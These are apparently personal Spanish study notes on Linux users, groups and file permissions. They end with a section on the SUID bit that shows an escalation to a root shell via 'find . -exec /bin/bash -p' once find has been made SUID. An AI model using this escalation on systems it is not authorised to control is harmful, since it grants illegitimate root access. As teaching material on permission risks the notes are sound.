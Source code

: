 Como bien sabemos los usuarios del sistema se encuentran en `> /etc/passwd` cada uno de estos usuarios tiene una shell, podemos ver las shell registradas en el sistema.

	> /etc/shells

Si deseamos filtrar los usuarios, podemos aplicar un filtro por quien utiliza una *shell* ya que están siempre terminan en *sh*

	cat /etc/passwd | grep "sh$" | awk '{print $1}' FS=':'

Output:
``` bash
root
postgres
s4tisfacti0n
```

Con `> id` podemos ver lo grupos a los que pertenece el usuario.

## Creacion de usuarios
Creamos el directorio correspondiente del usuario

	> mkdir /home/white

Creamos el usuario

	> useradd -d /home/white -s /bin/bash white
-d *Directorio correspondiente al usuario*
-s *Tipo de shell a usar*

Obviamente le asignamos como propietario a *white:white*  de su directorio.

	> chown white:white /home/white

Y ya estaría el usuario.

	white@DESKTOP-0365ART:~$ pwd
	/home/white
	white@DESKTOP-0365ART:~$ echo $SHELL
	/bin/bash
	white@DESKTOP-0365ART:~$ id
	uid=1001(white) gid=1001(white) grupos=1001(white)
	white@DESKTOP-0365ART:~$ 


# Permisos

## Lectura de permisos 

	drwxr-xr-x   5 s4tisfacti0n s4tisfacti0n  4096 oct 29 17:18 opt
*d* -> Directorio
*rwx rwx rwx*
 P     G    O
 
*r*-> read
*w* -> write/alter/create/delete
*x* -> *f*: execute | *d*: atravesar (cd /opt) 

## Asignación de permisos & grupos

La asignación la podemos otorgar con **chmod** que nos sirve para cambiar los permisos.
``` bash
	drwxr-xr-x 2 white white 4096 oct 30 07:31 directorio
	#agregar (+), quitar (-)
	#grupo (g), otros (o)
	chmod o-x directorio/ # no pueden acceder al directorio
	chmod g+rw,o-rx directorio/

```

Asignar a un usuario a un grupo.

	usermod -a -G colegio white

Cambiar el grupo de archivo o directorio con **chgrp**

	chgrp s4tisfacti0n directorio



## Permisos especiales

### SUID
**-rwsr-x---**
La **s** en rws significa setuid, lo que significa establecer ID de usuario. Este es un bit de permiso especial que permite que el programa, cuando lo ejecuta cualquier usuario, se ejecute con el SUID efectivo del propietario

*Nota:*
Este bit de permiso es un riesgo para la seguridad y solo debe aplicarse cuando sea absolutamente necesario.

#### Explotación y abuso de privilegios

Asignar permiso SUID.
> Conversación
-white: Oye root necesito buscar archivos privilegiados con find, dame permiso no?
-root: Vale solo quieres buscar archivos.
-white: Si claro.

Añadiendo un 4 y los permisos del archivo podemos otorgar el permiso UID.

	root> chmod 4755 /usr/bin/find
	#
	root> chmod +s /usr/bin/find

	root> which find | xargs ls -l
	-rwsr-xr-x 1 root root 298576 abr 19  2022 /usr/bin/find

> Conversación
> -white: Muchas gracias root :)
> -Narrador: Pero white no tiene buenas intenciones así que busca escalar privilegios.
> 

Así que va a [GTFobins](https://gtfobins.github.io) y encontró que puede ejecutar una bash con el con *find*

	find . -exec /bin/bash -p \; -quit
Que consiste en buscar un archivo executable para ejecutar una bash, cuando encuentre este cierra el find.
``` bash
white@DESKTOP-0365ART:~$ find . -exec /bin/bash -p \; -quit
bash-5.2# whoami
root
bash-5.2# 
```

Mas [[Privilegios]].